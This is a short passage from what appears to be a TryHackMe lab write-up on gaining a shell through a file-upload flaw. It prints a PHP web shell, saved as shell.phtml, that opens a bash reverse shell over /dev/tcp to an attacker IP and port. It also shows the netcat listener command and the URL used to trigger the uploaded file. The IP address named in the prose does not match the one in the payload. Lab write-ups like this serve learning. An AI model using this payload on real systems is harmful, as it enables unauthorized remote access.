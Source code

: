 # Setting up file payload file

```json
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.23.142.138/4444 0>&1'");
?>
```

I have saved this command in the following file: *shell.phtml*. The File Upload is working only with files with the following extension: *.phtml*.

*10.9.1.178*: The IP Address which is the one i have in the THM network.
*4444*: The port on which i will be receiving the terminal.

# Starting a listening service on my machine (Netcat)

```css
nc -lvnp 4444
```

![[Pasted image 20250813000234.png]]

# Uploading the file and executing it

I just simply select the file and then execute it by typing this in the url section: 

```css
10.10.76.39:3333/internal/uploads/shell.phtml
```

![[Pasted image 20250813000755.png]]

